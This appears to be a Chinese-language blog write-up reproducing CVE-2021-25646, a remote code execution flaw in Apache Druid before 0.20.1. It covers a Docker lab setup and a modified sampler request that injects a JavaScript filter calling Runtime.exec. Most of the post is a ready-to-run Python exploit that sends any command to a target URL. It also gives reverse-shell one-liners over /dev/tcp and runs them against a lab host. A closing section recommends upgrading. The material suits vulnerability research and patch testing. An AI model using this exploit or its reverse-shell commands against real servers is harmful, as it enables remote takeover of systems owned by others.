 ```yaml
---
title: 2021-02-03-Apache Druid 远程代码执行漏洞（CVE-2021-25646）
tags: CVE-2021-25646,漏洞,ApacheDruid
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



# Apache Druid 远程代码执行漏洞（CVE-2021-25646）

## 漏洞描述
> Apache Druid 是一个分布式的数据处理系统。Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。在Druid 0.20.0及更低版本中，用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。攻击者可直接构造恶意请求执行任意代码，控制服务器。

## 影响版本

> Apache Druid < 0.20.1

## 环境搭建

> 我们直接使用docker来搭建环境，docker搭建这里我就不说了，之前文章也有提到过

我们使用命令搜索 docker-druid `sudo docker search docker-druid`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365138343.png)

下载镜像`sudo docker pull fokkodriesprong/docker-druid`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365323577.png)

下载完成之后我们来启动一下 docker 镜像
`sudo docker run --rm -i -p 8888:8888  fokkodriesprong/docker-druid`
> docker run ：创建一个新的容器并运行一个命令
> --rm：容器退出时自动清理容器内部的文件系统
> -i：以交互模式运行容器，通常与 -t 同时使用
> -p：指定端口映射，格式为：主机(宿主)端口:容器端口

<br>

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365651616.png)

## 漏洞复现

搭建好之后我们访问 `IP:8888` <br>
![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612365846607.png)

可以看到Apache Druid 版本为 0.15.1

然后我们点击 `Load data` > `Local disk`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612366423082.png)

在最右侧的表单 `Base directory` 和 `File filter` 分别填入 `quickstart/tutorial/`和`wikiticker-2015-09-12-sampled.json.gz`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612366809923.png)

点击 `Preview`，然后一直点击Next<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612366905212.png)

到 `Transform`的时候我们使用brup进行抓包，然后Next到 `Filter`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612367043020.png)
<br>
![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612367146016.png)

原始数据包：
```
{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[]}}},"samplerConfig":{"numRows":500,"cacheKey":"f7e99d25faaa43d1813aba2a53529dd2"}}
```
我们替换为：
```
{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```
其中执行命令的代码为：
```
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}"
```

接下来我们使用dnslog平台来进行漏洞复现，看是否能够执行成功
我们把命令更改为 `ping xxxx`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612367660820.png)

可以看到 dnslog 平台已经接收到数据了，证明漏洞可以利用

 也可以进行反弹shell的操作，只需要把命令更换成
 
 `/bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/port 0>&1`
 
 
 ## Python脚本
 
 > 自己写了一个Python的小脚本，代码功底有点水，接下来展示一下我写的Python小脚本

Python脚本代码：
```python?linenums
# coding:utf-8
import requests
import sys


def exploit(url=''):
    header = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36 SE 2.X MetaSr 1.0',
              'Content-Type': 'application/json;charset=UTF-8'}
    payload = r'''
  {"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
    "function":"function(value){return java.lang.Runtime.getRuntime().exec('%s')}",
    "dimension":"added",
    "":{
    "enabled":"true"
    }
    }}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
    ''' % poc
    response = requests.post(url+'/druid/indexer/v1/sampler?for=filter',headers=header,data=payload)

    if response.status_code == 404:
        print 'Response_status_code: ' + str(response.status_code)
        print '''
If Status 404 please remove '/'
    Example:
        http://wwww.xxxxxx.com/ is ERROR
        http://wwww.xxxxxx.com is right
        '''
    else:
        print 'Response_status_code: ' + str(response.status_code)
        print 'Response: ' + response.text


if __name__ == '__main__':
    try:
        url = sys.argv[1]
        poc = sys.argv[2]
        exploit(url)
    except IndexError:
        print '''
        ApacheDruid-CVE-2021-25646
        
        Dnslog Example:
            python ApacheDruid-CVE-2021-25646.py http://xxxxxxxxx.com "ping xxx.dnslog.cn" 
        Shell Example:
            python ApacheDruid-CVE-2021-25646.py http://xxxxxxxxx.com "/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/IP/PORT 0>&1"
        '''
        print 'Use: python ApacheDruid-CVE-2021-25646.py http://xxxxxxxxx.com "command"'
```

直接使用  `python ApacheDruid-CVE-2021-25646.py` 会有一些小提示
![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368028000.png)

`Dnslog` 测试：
`python ApacheDruid-CVE-2021-25646.py http://10.1.1.214:8888 "ping mrhat-test.jpdcb.l.dnslog.io"`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368304394.png)

`反弹shell`测试：
先监听要反弹的端口 `6666`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368418845.png)

然后执行命令
`python ApacheDruid-CVE-2021-25646.py http://10.1.1.214:8888 "/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/10.1.1.223/6666 0>&1"`
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1612368546561.png)


## 修复方案
>升级到最新版 Apache Druid 0.20.1
下载链接：
https://druid.apache.org/downloads.html
https://github.com/apache/druid/releases/tag/druid-0.20.1

